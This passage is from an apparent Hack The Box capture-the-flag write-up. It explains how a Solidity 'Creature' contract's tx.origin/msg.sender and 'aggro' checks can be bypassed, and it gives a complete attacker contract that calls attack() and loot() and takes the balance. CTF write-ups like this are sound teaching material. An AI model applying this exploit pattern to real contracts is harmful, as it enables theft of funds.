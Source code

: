 This checks if the call is coming through a contract. `tx.origin` is always the original EOA (wallet) that started the transaction, while `msg.sender` is the immediate caller.

- Direct EOA call: `tx.origin == msg.sender` → returns `false`
- Contract call: `tx.origin != msg.sender` → returns `true`

### Condition 2: `aggro != msg.sender`

The `aggro` variable is set to `msg.sender` on the first attack. For subsequent attacks to deal damage, the attacker must be different from whoever has aggro.

### The Vulnerability

To exploit this:
1. **First**, call `attack()` directly from our EOA to set `aggro` to our address
2. **Then**, deploy a contract that calls `attack()` 
   - `tx.origin` = our EOA
   - `msg.sender` = our attack contract
   - `aggro` = our EOA (from step 1)
   - This satisfies both conditions: `tx.origin != msg.sender` AND `aggro != msg.sender`

---

## Prerequisites

- Python 3.x with web3.py, py-solc-x, and requests
- Active HTB instance

```bash
pip install web3 py-solc-x requests
```

---

## Exploitation

### The Attack Contract

I created a simple contract that calls `attack()` and `loot()`:

```solidity
interface ICreature {
    function attack(uint256 _damage) external;
    function loot() external;
}

contract AttackContract {
    ICreature public creature;
    address public owner;
    
    constructor(address _creatureAddress) {
        creature = ICreature(_creatureAddress);
        owner = msg.sender;
    }
    
    function executeExploit() external {
        creature.attack(1000);
        creature.loot();
        payable(msg.sender).transfer(address(this).balance);
    }
    
    receive() external payable {}
}
```
